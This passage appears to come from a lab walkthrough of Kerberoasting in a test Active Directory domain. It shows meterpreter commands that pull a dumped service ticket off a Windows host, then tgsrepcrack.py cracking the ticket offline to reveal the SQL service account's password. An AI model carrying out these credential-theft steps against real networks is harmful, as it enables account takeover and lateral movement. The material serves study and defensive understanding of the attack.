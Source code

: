 {{< figure src="/images/kerberos_golden_ticket_exported_tickets.png" >}}

`1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi` is the Kerberos ticket dumped to disk! We can now transfer this to some place where we have Kerberoast downloaded and start cracking it! :D

## cracking the kerberos ticket
Back at my meterpreter session, we can simply download the ticket locally, and start the crack. `tgsrepcrack.py` allows you to specify tickets with a wildcard, so it will run the wordlist recursively over all of the tickets in a directory.

So download the ticket...
``` html
meterpreter > cd downloads/kerb
meterpreter > ls
Listing: C:\users\bobs\downloads\kerb
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1260  fil   2016-01-09 14:35:09 -0500  0-40e10000-bobs@krbtgt~FOO.LOCAL-FOO.LOCAL.kirbi
100666/rw-rw-rw-  1364  fil   2016-01-09 14:35:09 -0500  1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi

meterpreter > download 1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi /root/
[*] downloading: 1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi -> /root//1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi
[*] download   : 1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi -> /root//1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi
```

... and crack it!

``` html
root@kali:~/kerberoast# python tgsrepcrack.py /usr/share/wordlists/fasttrack.txt /root/1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi
found password for ticket 0: Password1  File: /root/1-40a10000-bobs@svcSQLServ~pc1.foo.local~1433-FOO.LOCAL.kirbi
All tickets cracked!
```

`Password1` is the password for the `svcSQLServ` account! \o/

One reason why having the password for this account is especially bad is because of its group memberships... Yes, I know. You may not easily see this in real life, but just bear with me for now.

``` html
PS C:\> net user svcSQLServ /domain
The request will be processed at a domain controller for domain foo.local.

User name                    svcSQLServ
Full Name                    SQL Server
Comment                      SQL Server Serice Account
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/7/2016 11:38:02 PM
Password expires             Never
Password changeable          1/8/2016 11:38:02 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
```